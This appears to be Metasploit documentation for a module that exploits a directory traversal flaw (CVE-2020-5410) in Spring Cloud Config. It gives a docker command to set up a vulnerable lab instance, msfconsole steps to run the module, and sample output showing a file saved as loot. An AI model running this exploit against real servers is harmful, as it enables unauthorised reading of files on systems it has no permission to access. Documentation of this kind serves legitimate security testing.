 ## Vulnerable Application

This module exploits an unauthenticated directory traversal vulnerability which exists in Spring Cloud Config versions 2.2.x prior to 2.2.3 and 2.1.x prior to 2.1.9, and older unsupported versions. Spring Cloud Config listens by default on port 8888.

**References:** https://tanzu.vmware.com/security/cve-2020-5410 <br>
**Vulnerable Installation Guide:** https://github.com/osamahamad/CVE-2020-5410-POC/blob/master/README.md

```
docker run -it --name=spring-cloud-config-server \
-p 8888:8888 \
hyness/spring-cloud-config-server:2.1.6.RELEASE \
--spring.cloud.config.server.git.uri=https://github.com/spring-cloud-samples/config-repo
```

## Verification Steps

1. `./msfconsole`
2. `use auxiliary/scanner/http/springcloud_directory_traversal`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested against Linux zero 4.15.0-48-generic #51-Ubuntu SMP x86_64 GNU/Linux

```
msf auxiliary(scanner/http/springcloud_directory_traversal) > run

[+] File saved in: /Users/Dhiraj/.msf4/loot/20200619234552_default_[REDACTED]_springcloud.trav_785232.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/springcloud_directory_traversal) > 
```
